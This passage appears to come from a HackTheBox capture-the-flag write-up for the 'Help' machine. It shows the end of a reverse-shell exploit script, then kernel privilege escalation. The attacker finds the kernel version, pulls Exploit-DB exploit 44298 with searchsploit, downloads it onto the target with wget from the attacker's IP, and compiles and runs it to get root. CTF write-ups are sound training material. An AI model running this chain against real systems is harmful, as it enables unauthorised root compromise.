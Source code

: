 ```py
    getRevShell(localip,lport,url_reverse)
if __name__ == '__main__':
    main()
```

# Help --> root

Now, let's get root on this box. We've already played a lot with it.

It's kernel

```sh
uname -a
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2009:35:33.png)

```sh
searchsploit 4.4.0-116
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2009:36:05.png)

We send it to the Help machine

```sh
searchsploit -m 44298
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2009:36:30.png)

```sh
wget 10.10.14.20/44298.c
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2009:37:20.png)

And we got root

```sh
gcc 44298.c -o exp
chmod +x exp
./exp
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2009:38:09.png)